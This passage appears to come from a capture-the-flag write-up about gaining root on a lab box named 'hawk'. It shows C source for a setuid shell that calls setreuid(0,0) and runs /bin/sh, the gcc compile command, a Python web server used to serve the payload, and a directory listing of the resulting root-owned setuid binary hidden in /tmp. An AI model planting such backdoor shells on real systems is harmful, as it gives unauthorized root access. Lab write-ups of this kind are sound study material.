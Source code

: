 Even if you can't run the commands directly, there are tons of ways to
get to root from here.

The first thing I did get to work was to create a setuid binary,
starting with this c code:



    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    int main(int argc, char *argv[]) {
        setreuid(0, 0);
        execve("/bin/sh", NULL, NULL);
    }



Compiled:



    root@kali# gcc -o shell /opt/shells/setuid/exec.c



Started a web server:



    root@kali# python3 -m http.server 81



Then, issued the following commands into the console:

![](/img/1543530450157.png)

On doing that, `.a` showed up in tmp, owned by root, with the setuid
bit:



    daniel@hawk:/tmp$ ls -la .a
    -rwsrwxr-x 1 root root 16664 Nov 29  2018 .a
